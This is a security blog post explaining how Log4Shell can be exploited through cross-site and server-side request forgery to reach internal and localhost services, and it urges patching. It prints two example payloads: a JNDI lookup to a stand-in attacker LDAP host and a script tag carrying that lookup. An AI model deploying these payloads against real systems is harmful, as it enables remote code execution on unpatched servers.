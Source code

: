 ```yaml
---
title: "Log4Shell and Request Forgery Attacks"
date: 2022-01-04T15:18:18-08:00
draft: true
tags: [
        "pentest", "red","research"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Log4Shell and Request Forgery Attacks"
  description:  "Beware of Log4Shell and Request Forgery Attacks"
  image: "https://embracethered.com/blog/images/2022/log4shell.png"
---
```



The last weeks of 2021 got quite interesting for security professionals and software engineers. 

Apache's [log4j library](https://logging.apache.org/log4j/2.x/) and its now prominent [Java Naming and Directory Interface support](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html), which enables easy remote code execution, made the news across the industry. 

What makes Log4Shell scary is the widespread adoption of the Log4j library amongst Java applications, and the ease of remote exploitation. 

**A dangerous combination.** 

Patches got released, bypasses were discovered more patches were released and so forth.

A lot has been written and great information is out there around [discovery](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/), [exploitation](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit) as well as [mitigations](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). This post is not intended to repeat that information. 

![Log4Shell and Request Forgery Attacks](/blog/images/2022/log4shell.png)

However, an area that has not gotten a lot of attention is the exploitation of Log4Shell in Request Forgery Attacks that target internal infrastructure and web servers by using the browser or a vulnerable service as confused deputy.

## What are Request Forgery Attacks?

Request Forgery Attacks create requests that have unintended consequences for the victim of the attack. 

These can typically be put in two categories, based on where the request is forged (client or server)
 
1. **Cross-Site Request Forgery Attacks** (CSRF) - these attacks make the client/browser connect to resources and trigger unintended actions. This attactypically leverages authentication tokens to invoke privileged operations on the users behalf via a web browser.
2. **Server-Side Request Forgery Attacks** (SSRF) - these attacks create a request on the server side, where an attacker is able to provide a URL to the server and the server will later connect to that URL. This could be via a wide range of destinations and protocols (localhost, internal networks, http, ftp, ldap,...)

Both kinds of request forgery vulnerabilities are quite common in web application and services. Also see the [confused deputy problem](https://en.wikipedia.org/wiki/Confused_deputy_problem) for a generic explanation of this kind of security issue.

## Why is this interesting in regard to Log4j?

**What makes request forgery attacks so powerful in regard to Log4j is that the Log4j vulnerability often can be triggered without any form of authentication**. 

This makes Cross-Site Request Forgery Attacks that target local or internal network resources very plausible. The same goes for the Server-Side attack scenarios. 

Any Server-Side feature which allows a user to specify a URL to control where a service connects to can potentially be leveraged to target internal infrastructure and probe for the log4j vulnerability.

## Simple GET requests trigger Log4Shell

Remember that in many cases all that is needed to reach a vulnerable log4j system is a GET request with a query parameter that contains the attack payload, for example:

`?username=${jndi:ldap://attacker/p}`

This payload can be provided by a malicious web page, e.g. when loading `image` or `script` tags:

`<script src="https://10.0.0.1/?username=${jndi:ldap://attacker/p}">`

This request will attack an internal network (such as the `10.0.0.1` IP address). It can also target applications installed on `localhost` (including phones!) of the victim browsing the Internet. 

![Log4Shell and Request Forgery Attacks - Log4 What?](/blog/images/2022/glasses.png)

An adversary can automate and scale this technique via JavaScript and AJAX requests or by just adding more tags in the HTML document.

Beware of this attack vector (possibly in combination with phishing attacks) patch and protect internally facing applications as well.

## Conclusion

This post discussed how both Cross-Site (client based) and Server-Side Request Forgery Attacks can lead to succesful exploitation of the log4j vulnerability.

**If you were solely focused on patching externally facing applications and services expand your analysis to everything, including internal infrastructure, as well as developer and end user machines.**

[Chrome and Edge](https://chromestatus.com/feature/5436853517811712) seem to add more restrictions for browsers to talk to private networks as well.

Keep scanning and patching!

## References

* [Apache Log4j Overview](https://logging.apache.org/log4j/2.x/) 
* [JNDI Overview](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
* [CISA - Apache Log4j Vulnerabilty Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
* [Apache Log4j Vulnerability - Exploit](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit)
* [Confused Deputy Problem](https://en.wikipedia.org/wiki/Confused_deputy_problem)
* [Guidance for preventing, detecting and hunting for CVE 2021-44228](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
* [Feature: Restrict "private network requests" for subresources from public websites to secure contexts](https://chromestatus.com/feature/5436853517811712)
* Image with the glasses taken from Microsoft Image search included in PowerPoint - credit goes to whoever created the image.
